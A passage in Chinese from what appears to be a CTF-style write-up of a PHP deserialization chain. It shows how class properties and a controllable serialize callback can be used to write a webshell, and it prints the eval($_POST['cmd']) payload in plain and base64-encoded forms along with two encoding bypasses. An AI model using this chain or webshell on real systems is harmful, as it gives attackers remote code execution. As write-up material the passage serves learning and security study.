         foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
        }
        ```
        这个函数首先会交换`$cachedProperties`数组中的键和值，即键值互换

        然后对传入的数组参数进行处理，具体操作时如果数组中某一个值仍是数组则对这个数组和`$cachedProperties`数组求交集，如果数组中的值不是数组就不做处理。

        这里我们就可以利用`$cache`对`$cleaned`进行赋值，在`class A`中令`$this->cache = array(1234=>'aaaPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTsgPz4=')`
    
    2. 利用`$this->complete`构造webshell

        `$cleaned`为一个空数组就行了。它调用了`cleanContents($this->cache)`;因为函数参数是数组类型，所以让`$this->cache=array()`;为一个空数组，防止调用报错。

        所以在`class A`的初始化的时候令`$this->complete="111".base64_encode('<?php eval($_POST["cmd"]);?>')`

- 但是在`set`函数中`$data`经过了`class B`自定义的`serialize`函数处理

    ```php
        protected function serialize($data): string {
            if (is_numeric($data)) {
                return (string) $data;
            }

            $serialize = $this->options['serialize'];

            return $serialize($data);
        }
    ```
    所以这个自定义函数我们可控，这里有两种方法

    1. 两次base64编码，如

        ```php
        // class A
        $this->complete = base64_encode("111".base64_encode('<?php eval($_POST["cmd"]); ?>'));
        //class B
        $this->options['serialize'=>'base_decode'];
        ```

    2. 利用php中的一些处理字符串的函数使`$data`经过这种函数处理后不会改变webshell的base64编码值,如`trim`函数，这个函数作用是移除字符串首尾空白字符

        ```php
        // class A
        $this->complete = '"111".base64_encode('<?php eval($_POST["cmd"]); ?>')';
        // class B
        $this->options['serialize'=>'trim'];
        ```

- poc
